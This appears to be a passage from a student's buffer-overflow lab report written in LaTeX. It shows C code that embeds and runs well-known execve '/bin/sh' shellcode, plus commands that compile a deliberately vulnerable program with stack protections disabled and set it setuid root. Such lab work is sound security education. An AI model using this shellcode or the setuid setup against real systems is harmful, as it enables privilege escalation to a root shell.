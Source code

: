 \documentclass[a4paper,12pt]{article}
\begin{document}
\begin{enumerate}
\begin{verbatim}
/*A program that creates a file containing code for launching 
shell*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
		
const char code[] =
"\x31\xc0"             /* xorl    %eax,%eax              */
"\x50"                 /* pushl   %eax                   */
"\x68""//sh"           /* pushl   $0x68732f2f            */
"\x68""/bin"           /* pushl   $0x6e69622f            */
"\x89\xe3"             /* movl    %esp,%ebx              */
"\x50"                 /* pushl   %eax                   */
"\x53"                 /* pushl   %ebx                   */
"\x89\xe1"             /* movl    %esp,%ecx              */
"\x99"                 /* cdq                            */
"\xb0\x0b"             /* movb    $0x0b,%al              */
"\xcd\x80"             /* int     $0x80                  */
;
		
int main(int argc, char **argv)
{
    char buf[sizeof(code)];
    strcpy(buf, code);
    ((void(*)( ))buf)( );
} 
		\end{verbatim}
		We compile the code with the \texttt{execstack} switch on. \begin{verbatim}
$ gcc -z execstack -o call_shellcode call_shellcode.c\end{verbatim}
		\newpage
		\item \textbf{Vulnerable Program} \begin{par}We prepare the program with the stack buffer overflow vulnerability and compile in root mode. We turn off  the non-executable stack and StackGuard protections.\begin{verbatim}
			$ su
			# gcc -o stack -z execstack -fno-stack-protector stack.c -g
			# chmod 4755 stack
			# exit
			\end{verbatim} 
			We take note of the following two pointers in the code above. Firstly, we use the \texttt{-g} switch to add debugging information for easier reference to the memory addresses later (Not used in the lab reference sheet). Secondly, 4755 sets the execution of the program to use root privileges (u+s) as we want root to be the owner of the file.\end{par}
	\end{enumerate}
	\newpage
\end{document}
